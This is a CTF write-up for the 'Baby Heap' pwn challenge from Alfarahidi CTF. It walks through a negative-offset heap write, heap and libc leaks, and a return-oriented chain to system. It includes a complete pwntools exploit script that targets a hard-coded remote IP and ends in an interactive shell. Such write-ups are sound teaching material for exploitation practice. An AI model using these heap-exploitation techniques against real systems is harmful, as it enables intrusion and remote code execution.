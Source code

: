 ```yaml
---
title: "Baby Heap - Alfarahidi CTF"
tags:
  - Pwn
  - CTF 
  - heap
---
```


# Description:

It's not baby heap lol 


# Overview:

During the initialization phase, [0,15] memory pages were randomly lifted, and a tcache list with a starting size of 0x291 was also created, which was well received. 

Then randomly allocate 16 chunks of sum `0x10`and `0x28`size on the heap, respectively as `header`and `data`, the data structure is as follows. 

```c
- header:
    
    0x0: size ( ***signed*** long long)
    
    0x8: ptr (char*)
    
- data:
    
    0x0: data (char[0x28])
```

There will be no new malloc behavior from now on.

In the allocation stage, randomly pick one from each `header`and `data`put it into the list on bss. The entire process applies to more than 16 direct `exit(0)`.

Deletion also clears `header`the pointer in, and there is no UAF.

`show`When using the function `write(1,header->ptr,header->size)`, you can ignore 0 and truncate the leaked information.

**Vulnerability point analysis :** 

`edit`In the function, `offset`there is no check for negative numbers, which results in arbitrary writing to lower addresses on the heap, specifically `header->ptr[offset]`.

Because the sum of the heap `header`is `data`initialized `malloc`, the addresses are consecutive and only `add`randomly assigned during the process. Therefore, there is a higher probability `header`that it will be `data`adjacent.

- The total size of the large heap blocks allocated during initialization is always a multiple of 0x1000, which will only affect heap_base in units of memory pages and will have little impact on our next use.

Then we can start spraying. Assume that there is at least one `header`and `data`adjacent, find any one `data`, modify its adjacent `header`size field forward, and then stack `show`all the blocks one by one. If the assumption is true, we will receive data with a length greater than 0x28 .

In this way, we can get the address on the heap and then `header`the `data`address of the page where it is located.

Remember that the randomly selected heap block id is `random_idx`, and find `show`the heap block id that can produce data `target_idx`.

Then we clear the lower 12 bits `random_idx`of `header->data`the pointer to zero, and then get the memory distribution of the entire page.

Next we consider how to get libc.

Since the deletion process will delete the pointer, we cannot directly use `random_idx`the sum used in the previous step *target_idx*. We need to control another pointer to point to the heap block of size 0xd60 allocated during the initialization phase.

We can randomly pick one with *random_idx* different *target_idx* IDs *header*, find the one that corresponds to it *data*, calculate the distance between this *header*  and *data* the other, and then we will get another controllable one `header`, and further use it to complete the free of large blocks.

It is very simple to construct arbitrary reading and writing. You can change and write at will with the `random_idx`and `target_idx`.

With libc and arbitrary reading and writing, you can consider how to getshell.

`main`It's OK `return 0`, consider leaking env and stacking it.

Although the local hit probability is not very high (the physical sense is less than 50%), the remote hit probability is still quite high. I hit it three times.

```python
from pwn import *
context(arch='amd64', os='linux', log_level='info')
#s=process('./src/pwn')
#s=remote("localhost",10002)
s = remote('15.237.60.47',10002)
elf=ELF('./src/pwn')
libc=ELF("./src/libc.so.6")

def menu(choice):
    s.sendlineafter(b"choice: ",str(choice).encode())
def add(idx,content=b"/bin/sh\x00"):
    menu(1)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.sendlineafter(b"data: ",content)

def edit(idx,off,content):
    menu(2)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.sendlineafter(b"offset: ",str(off).encode())
    s.sendlineafter(b"data: ",content)

def show(idx):
    menu(3)
    s.sendlineafter(b"idx: ",str(idx).encode())
    s.recvuntil(b"Data: ")
    return s.recvline()[:-1]

def delete(idx):
    menu(4)
    s.sendlineafter(b"idx: ",str(idx).encode())

def test(dat):
    context.log_level="info"
    tests=process("./pwn")
    context.log_level="debug"
    tests.send(dat)
    context.log_level="info"
    tests.close()
    context.log_level="debug"

if __name__=="__main__":
   # pause()
    # spray heap with idx, binsh seems useless
    for i in range(0x10):
        add(i,p64(0xd0+i)+b"/bin/sh\x00")
    # randomly choose an header, modify its neighbour header->size
    # to a bigger one, prepare to leak when show
    edit(3,-0x20,b"\x90\x21")
    # try hit, if hit, then data len should be the length we set
    # in our previous step
    flag=0
    target_idx=0
    for i in range(0x10):
        dat=show(i)
        if len(dat)!=0x28:
            info(hex(len(dat)))
            flag=1
            target_idx=i
            break
    if not flag:
        error("failed to leak")

    # clear low 12 bits to zero, show from "heap base"
    # then we can know what's on mem
    pos=dat.find(p64(0x28))
    heap_base=u64(dat[pos+8:pos+16])&(~0xfff)
    info(hex(heap_base))
    edit(3,-0x18,p64(heap_base)[:6])
    dat=show(target_idx)

    # choose the first header, and try to find its data and modify
    # its ptr to 0xd71 chunks malloced in init phase.
    # There's some simple assertions.
    # Can be removed if you scan other ptrs on heap when the first failed.
    pos=dat.find(b"\x56")
    if pos==-1:
        pos=dat.find(b"\x55")
    if pos==-1:
        error("failed to find heap ptr")
    pos-=5
    heap_ptr=u64(dat[pos:pos+8])&(0xfff)
    evil_idx=u64(dat[heap_ptr:heap_ptr+8])-0xd0
    if evil_idx<0 or evil_idx>0x10:
        error("failed to find evil idx")
    info(hex(evil_idx))
    if pos-heap_ptr>0:
        error("fail to calc offset")
    

    edit(evil_idx,pos-heap_ptr,p64(heap_base-0xd70+0x10)[:6])
    delete(evil_idx)
    edit(3,-0x18,p64(heap_base-0xd70+0x10)[:6])
    dat=show(target_idx)
    libc.address=u64(dat[:8])-(0x7f5fc9912ce0-0x7f5fc96f9000)
    success(hex(libc.address))

    # Now we get libc base, leak environ then attack stack
    # should be a good idea.

	    edit(3,-0x18,p64(libc.sym.environ)[:6])
    stack=u64(show(target_idx)[:8])
    success(hex(stack))

    target=stack+(0x7ffd0cee3c38-0x7ffd0cee3d58)+8
    edit(3,-0x18,p64(target)[:6])
    edit(target_idx,-8,p64(libc.address+0x000000000002a3e5+1)[:6])
    edit(target_idx,0,p64(libc.address+0x000000000002a3e5)[:6])
    edit(target_idx,8,p64(libc.address+0x00000000001d8698)[:6])
    edit(target_idx,0x10,p64(libc.sym.system)[:6])
    s.interactive()
```
